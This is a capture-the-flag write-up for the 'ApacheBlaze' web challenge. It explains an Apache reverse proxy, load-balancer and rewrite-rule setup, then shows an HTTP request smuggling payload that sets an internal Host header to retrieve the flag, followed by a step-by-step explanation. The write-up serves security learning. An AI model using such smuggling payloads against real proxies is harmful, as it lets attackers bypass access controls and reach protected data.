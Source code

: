 ```yaml
---
description: Easy 🔮 Web
hidden: true
cover: https://i.pinimg.com/564x/19/cc/4d/19cc4d8e017b047cb4c1d02e5cc43524.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ApacheBlaze

## Source code

<figure><img src="../../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

The code checks if the user choose <mark style="color:red;">**`click_topia`**</mark> game and the request has <mark style="color:red;">**`X-Forwarded-Host`**</mark> header with value <mark style="color:red;">**`dev.apacheblaze.local`**</mark> it returns the flag as a JSON.

<figure><img src="../../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

The configuration described sets up a reverse proxy on port 1337, designed to forward incoming requests to a backend server operating on port 8080. This setup is enhanced by a load-balancing mechanism that intelligently distributes traffic between two backend servers, running on ports 8081 and 8082. Additionally, a rewrite rule within the first virtual host is responsible for specifically handling requests made to the <mark style="color:red;">**`/api/games/`**</mark> endpoint. These requests are seamlessly redirected to the backend server while dynamically adjusting the query parameters to ensure the correct data is processed.

#### Understanding the Reverse Proxy and Load Balancing Configuration

**Reverse Proxy with Apache (Port 1337 to 8080)**

In this configuration, Apache is set up to listen on port 1337, acting as an intermediary for client requests. When a client sends a request to this port, Apache forwards the request to a backend server on port 8080. This process is known as reverse proxying. Apache not only forwards the requests but also manages the communication between the client and the backend, ensuring that the response is appropriately routed back to the client.

**Load Balancing Across Multiple Backends (Ports 8081 and 8082)**

The configuration includes a load balancer within the second virtual host to enhance reliability and performance. This load balancer distributes incoming traffic across two backend servers running on ports 8081 and 8082. Load balancing is a crucial strategy in managing large volumes of traffic, as it prevents any single server from becoming overwhelmed by distributing the load evenly. This not only improves response times but also increases the system’s fault tolerance, as the failure of one server does not lead to system downtime.

**Custom Rewrite Rule for API Requests**

A critical aspect of this configuration is the rewrite rule defined in the first virtual host. This rule specifically intercepts requests made to the <mark style="color:red;">**`/api/games/`**</mark> endpoint. It modifies these requests by appending the appropriate query parameters before forwarding them to the backend server. This feature is particularly useful for ensuring that requests are properly formatted and directed, which can be essential for APIs that require specific parameters to function correctly.

#### The Role of mod\_proxy in Apache

The <mark style="color:red;">**`mod_proxy`**</mark> module is the backbone of this configuration. As an integral part of Apache, <mark style="color:red;">**`mod_proxy`**</mark> enables the server to function as a reverse proxy, which is essential for forwarding requests from the frontend to the backend. This module supports various protocols and can be configured to work with different types of backend servers, making it highly versatile. In addition to basic proxying, <mark style="color:red;">**`mod_proxy`**</mark> can also handle more complex tasks, such as load balancing, URL rewriting, and caching, which are all critical for modern web applications that demand high availability and performance.

In summary, this configuration not only sets up a reverse proxy to manage incoming requests but also incorporates advanced features like load balancing and custom URL rewriting to optimize the performance and reliability of the web application. By leveraging the capabilities of <mark style="color:red;">**`mod_proxy`**</mark>, Apache can effectively manage traffic, ensuring that backend servers are efficiently utilized and that client requests are handled smoothly and securely.

## Exploit ([HTTP Request Smuggling](#user-content-fn-1)[^1])

We can hide a second request with the <mark style="color:red;">**`\r\n`**</mark> splitting method. That enables us to send the request directly from the reverse proxy, so we will not have other stuff appended to the end of  [_<mark style="color:red;">**`X-Forwarded-Host`**</mark>_](#user-content-fn-2)[^2] header.

```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.53.20:53347
```

<figure><img src="../../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

## Explain

When two HTTP requests are sent in a single connection and passed through a proxy, the process becomes more complex, especially in the context of HTTP Smuggling.

Assume the client sends the following requests:

```vbnet
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local

GET / HTTP/1.1
Host: 94.237.53.20:53347
```

#### 1. Proxy (Frontend) Processing the Requests

**Step 1: Receiving the Request**

* The proxy (Apache on port 1337) receives the entire HTTP request.

**Step 2: Applying the `RewriteRule`**

*   The proxy inspects the first request:

    ```vbnet
    GET /api/games/click_topia HTTP/1.1
    Host: dev.apacheblaze.local
    ```
*   The `RewriteRule` is applied as per your configuration:

    ```apache
    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
    ```

    This rule transforms the first request into:

    ```vbnet
    GET /?game=click_topia HTTP/1.1
    Host: 127.0.0.1:8080
    ```

**Step 3: Handling the Second Request (Smuggled Request)**

* Typically, the proxy only processes the first request and forwards it to the backend. The remaining part of the data (the second request) might be ignored or not handled correctly by the frontend proxy.

#### 2. Backend Processing the Requests

When the proxy forwards the request to the backend:

**First Request:**

*   The backend (the server at **`127.0.0.1:8080`**) receives the transformed request:

    ```vbnet
    GET /?game=click_topia HTTP/1.1
    Host: 127.0.0.1:8080
    ```
* The backend processes this request and sends a response back to the front-end proxy.

**Second Request (Smuggled Request):**

* After processing the first request, the remaining data on the TCP connection (the second request) might be treated by the backend as a new HTTP request since it receives the entire payload from the proxy.
*   The second request that the backend receives might look like:

    ```vbnet
    GET / HTTP/1.1
    Host: 94.237.53.20:53347
    ```
* The backend will process this as a legitimate HTTP request and respond accordingly, possibly serving the homepage or another resource at <mark style="color:red;">**`/`**</mark>.

#### 3. Responses from the Backend:

* **Response to the First Request** (<mark style="color:red;">**`GET /?game=click_topia`**</mark>):
  * The backend sends this response back through the frontend proxy, which then forwards it to the original client.
* **Response to the Second Request** (<mark style="color:red;">**`GET / HTTP/1.1`**</mark>):
  * The backend might send a second response, which could be for the homepage <mark style="color:red;">**`/`**</mark> or another resource from the server at <mark style="color:red;">**`94.237.53.20:53347`**</mark>.
  * The frontend proxy might not recognize that this response corresponds to a smuggled request or might forward it without realizing that it stems from a hidden request.

[^1]: HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

[^2]: The **HTTP&#x20;**<mark style="color:red;">**`X-Forwarded-Host`**</mark> header is a request-type header de-facto standard header. This header is used to identify the original request made by the client. Because the hostnames and the ports differ in the reverse proxies that time this header took the leader and identify the original request. This header can also be used for debugging, creating location-based content. So this header kept the privacy of the client. The root version of this header is HTTP Forwarded.
